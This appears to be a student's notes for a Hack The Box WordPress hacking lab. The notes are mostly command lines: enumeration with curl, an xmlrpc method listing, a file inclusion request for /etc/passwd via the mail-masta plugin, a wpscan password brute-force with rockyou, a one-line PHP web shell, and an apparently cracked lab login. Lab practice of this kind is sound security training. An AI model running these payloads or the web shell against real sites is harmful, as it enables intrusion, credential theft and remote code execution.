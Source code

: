 # Hacking WordPress

# Plugins and Themes Enumeration

https://wpscan.com/profile/

```bash

# Plugins
curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2

# Themes
curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2


curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta

curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/someplugin


```

# Directory Indexing


Keep in mind the key WordPress directories discussed in the WordPress Structure section. Manually enumerate the target for any directories whose contents can be listed. Browse these directories and locate a flag with the file name flag.txt and submit its contents as the answer. 


```bash
curl -s -X GET http://94.237.53.113:54640/wp-content/plugins/mail-masta/ | html2text  


curl -s -X GET http://94.237.53.113:54640/wp-content/plugins/mail-masta/inc/flag.txt | html2text


```

# User Enumeration


```bash

curl -s -I http://blog.inlanefreight.com/?author=1

curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq

``` 



# Login

Search for "WordPress xmlrpc attacks" and find out how to use it to execute all method calls. Enter the number of possible method calls of your target as the answer. 

```bash

curl -X POST -d '<methodCall><methodName>system.listMethods</methodName></methodCall>' http://94.237.53.113:54640/xmlrpc.php  | grep "string" | wc -l


```


# Exploiting a Vulnerable Plugin


```bash
view-source:http://94.237.63.49:39931/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

```


# Attacking WordPress Users


```bash
wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt  --url http://94.237.63.49:39931


```


# Remote Code Execution (RCE) via the Theme Editor


```php

system($_GET['cmd']);
readfile("/home/wp-user/flag.txt");

```

# WordPress Hardening

Perform Regular Updates

https://academy.hackthebox.com/module/17/section/63


```
erika:010203

```
